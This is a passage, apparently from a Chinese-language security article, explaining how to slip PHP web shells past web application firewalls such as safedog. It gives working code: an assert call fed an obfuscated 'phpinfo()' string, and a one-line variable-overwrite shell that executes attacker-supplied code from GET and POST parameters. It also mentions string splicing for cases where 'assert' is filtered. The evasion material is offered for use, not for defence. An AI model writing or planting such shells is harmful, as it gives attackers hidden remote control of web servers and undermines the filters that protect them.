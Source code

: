 ***\*如\** \**phpinfo();\**** 

***\*可以替换成如下写法：\** $y=str_replace('x','','pxhpxinxfo()');assert($y);**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQ5ibuv1N4JeRibLfEaqXUFoNgwbcxpmLFtAEZXu7jLaMUHkc2J9Ujm7gA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



***\*③提交方法\**** 

**利用变量覆盖加上请求方法达到该效果，如本来是 POST 方法，修改后变成 GET 方法从而达 到绕过 WAF \**$a=$_GET['x'];$$a=$_GET['y'];$b($_POST['z']);\** 下面的尝试未开启 BT，只有 safedog 的测试**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQKMT63Qn3pTJRmictibibiamnfrdXJQDftXuiczwJA5L17w5GThtCsGPXcGg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**过滤了 assert 关键字时,利用下面方法达到绕过 原理:就是拼接字符串**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQMGicduZUYobyPB3K7sSGNPu6kPhHPbicficf9eUUtm5L0wXROqwMM8FIw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)